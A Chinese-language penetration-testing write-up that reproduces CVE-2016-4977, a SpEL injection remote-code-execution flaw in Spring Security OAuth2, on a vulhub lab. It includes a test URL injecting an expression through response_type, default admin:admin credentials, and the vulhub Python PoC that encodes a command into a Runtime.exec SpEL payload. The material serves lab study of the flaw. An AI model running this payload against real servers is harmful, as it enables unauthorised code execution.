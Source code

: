 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083023.png)image-20210829162247520

这里复现的环境搭建均采用p牛的vulhub靶场环境。

## Spring渗透总结

### 1.Spring Security OAuth2 远程命令执行（CVE-2016-4977）

#### 漏洞简介

Spring Security OAuth2是为Spring框架提供安全认证支持的一个模块。Spring Security
OAuth2处理认证请求的时候如果使用了whitelabel views，response_type参数值会被当做Spring
SpEL来执行，攻击者可以在被授权的情况下通过构造response_type值也就是通过构造恶意SpEL表达式可以触发远程代码执行漏洞。故是在需要知道账号密码的前提下才可以利用该漏洞。

#### 影响版本

    
    
    2.0.0-2.0.9  
    1.0.0-1.0.5  
    

#### 漏洞验证

启动漏洞

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083024.png)image-20210829172348141

访问url

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083025.png)

输入下面的漏洞测试url：

    
    
    http://192.168.173.144:8080/oauth/authorize?response_type=${2*2}&client_id=acme&scope=openid&redirect_uri=http://test  
    

访问后会弹窗，输入用户名和密码 admin:admin即可，返回结果可以看到值被成功计算为2*2=4

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083026.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903083027.png)

页面返回执行了我们输入的SpEL表达式，这里可以看作是SpEL表达式的注入，既然表达式被执行了，我们可以考虑代码注入的可能性。

#### 漏洞复现

这里看一下vulhub提供的poc，poc地址：https://github.com/vulhub/vulhub/blob/master/spring/CVE-2016-4977/poc.py

    
    
    #!/usr/bin/env python  
    message = input('Enter message to encode:')  
    poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])  
    for ch in message[1:]:  
       poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch)   
    poc += ')}'  
    print(poc)  
    